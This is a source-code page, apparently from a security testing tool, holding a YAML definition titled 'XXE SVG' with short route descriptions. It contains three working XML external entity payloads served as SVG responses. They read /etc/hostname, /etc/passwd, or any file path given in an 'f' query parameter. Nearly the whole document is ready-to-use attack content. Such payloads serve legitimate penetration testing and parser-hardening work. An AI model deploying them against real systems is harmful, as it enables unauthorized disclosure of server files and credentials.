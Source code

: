```yaml
---
title: XXE SVG
description: Returns an SVG payload with XXE to get files
weight: 1
payloads:
  - sort_order: 1
    pattern: /sh$
    data:
      headers:
        Content-Type: text/xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
          <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-size="16" x="0" y="16">&xxe;</text>
          </svg>


  - sort_order: 1
    pattern: /sp$
    data:
      headers:
        Content-Type: image/svg+xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
          <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
          </svg>


  - sort_order: 1
    pattern: /sv$
    data:
      headers:
        Content-Type: image/svg+xml
        body: |
          <?xml version="1.0" standalone="yes"?>
          <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file://{{.GET_f}}" > ]>
          <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
          <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
          </svg>

---
```


SVG with XXE payloads

### /sh

attempts to get /etc/hostname

SVG with XXE payloads

### /sp

attempts to get /etc/passwd

### /sv

attempts to get whatever files is supplied via the `f` query parameter
